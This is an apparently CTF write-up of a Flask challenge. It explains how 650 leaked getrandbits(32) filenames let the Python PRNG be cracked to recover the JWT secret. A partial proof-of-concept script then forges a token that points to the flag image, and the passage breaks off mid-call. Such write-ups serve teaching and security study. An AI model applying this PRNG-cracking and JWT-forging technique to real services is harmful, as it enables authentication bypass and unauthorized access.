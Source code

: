     The ```generate_random_filename()``` function uses ```random.getrandbits(32)``` to generate 650 random filenames in the format ```<random_number>.webp```, stored in ```image_list```. Then, we can get this list via ```/images``` endpoint.

2. __Secret Key Generation__:
    After genertate 650 random filenames above, the Flask app's ```SECRET_KEY``` is set using ```str(random.getrandbits(32))```, a 32-bit random number generated at startup.

3. __JWT  Handling__:
    The JWT is signed using the HS256 algorithm with the ```SECRET_KEY```. That decided which ```*.webp``` will be used in ```index.html```.

### Vulnerability Identification
The key vulnerabilities are:
1. __PRNG__:
The ```random``` library in Python uses a pseudo-random number generator. If we have enough states, we can *crack* the random generator and *predict* its future states. As mentioned above, this challenge provided me with 650 states (through generating image names).
2. __JWT Forge__:
The ```SECRET_KEY``` is generated after generating the filenames. Therefore, if we crack the randomness, we can determine the key, making it easy to forge the JWT.
### Exploit
After some research on Github, I found this repo for cracking the Python randomness: [Python-random-module-cracker](https://github.com/tna0y/Python-random-module-cracker). Absolute cinema 🤺 !!!. So this is my exploitation strategy:
1. Retrieve the list of filenames from ```/images```.
2. Use the random numbers in the filenames to predict the PRNG state.
3. Recover the ```SECRET_KEY```.
4. Forge a JWT with profilepicture set to ```./images/flag.webp```.
5. Use the forged JWT to access the flag image.
### PoC
This is my PoC:
```python
from randcrack import RandCrack #type: ignore
from img import *
import jwt
import datetime

img_id = [x.split('.')[0] for x in img_lst]

rc = RandCrack()
for item in img_id[26:]:
	rc.submit(int(item))

secret = str(rc.predict_randrange(0, 4294967295))
print(f"[+] Secret: {secret}")

def generate_jwt():
    payload = {
        'sub': 'user_id',
        'exp': datetime.datetime.utcnow() + datetime.timedelta(hours=1),
        'iat': datetime.datetime.utcnow(),
        'profilepicture': f'./images/flag.webp'
    }
    header = {
        'alg': 'HS256',
        'typ': 'JWT'
    }
    token = jwt.encode(
        payload,
        secret,
        algorithm='HS256',
        headers=header
```